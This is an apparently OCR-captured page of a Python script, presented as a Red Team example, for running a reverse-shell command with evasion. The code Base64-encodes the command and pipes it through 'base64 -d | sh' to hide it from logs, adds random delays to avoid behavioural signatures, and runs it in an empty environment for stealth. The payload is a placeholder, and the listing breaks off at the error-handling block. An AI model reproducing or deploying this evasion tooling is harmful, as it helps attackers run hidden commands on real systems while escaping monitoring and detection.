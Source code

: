 ### The Python Script

Below is a Python script that demonstrates:

1. **Obfuscation** of the reverse shell command using Base64 encoding.
2. **Random Delays** to avoid predictable patterns.
3. **Clean Environment** execution to minimize environment-variable footprints.
4. **Error Handling** to gracefully catch exceptions.
````

```python
# -*- coding: utf-8 -*-
"""
=========================================================
 Author:       LordMurak/Milton
 Description:  Example script for command execution
               with evasion and control improvements.
 Usage:        Only in authorized Red Team environments.
=========================================================
"""

import subprocess
import base64
import random
import time
import os

def obfuscate_command(command):
    """
    Converts the command to Base64 and decodes it
    in the target shell. This approach helps
    obfuscate the string in memory and in simple logs.
    """
    b64_cmd = base64.b64encode(command.encode()).decode()
    # Example for Unix-based systems:
    #   echo <b64_cmd> | base64 -d | sh
    # For PowerShell (Windows):
    #   powershell -EncodedCommand <b64_cmd>
    #
    # Here we use a generic example for Unix:
    return f"echo {b64_cmd} | base64 -d | sh"

def main(command=None):
    """
    Executes an obfuscated command with a random delay,
    in a 'clean' environment, handling errors.
    """
    # 1. Default command (if none is provided)
    if command is None:
        command = r'insert here ur cmd shellcode'

    # 2. Small random delay to reduce behavioral signatures
    delay = random.randint(1, 5)
    time.sleep(delay)

    # 3. Obfuscate the command (optional, you can disable it if you want to run the command directly)
    obfuscated = obfuscate_command(command)

    # 4. Create an empty environment (no variables) for stealth
    clean_env = {}

    # 5. Use subprocess.Popen for better control over stdout and stderr
    try:
````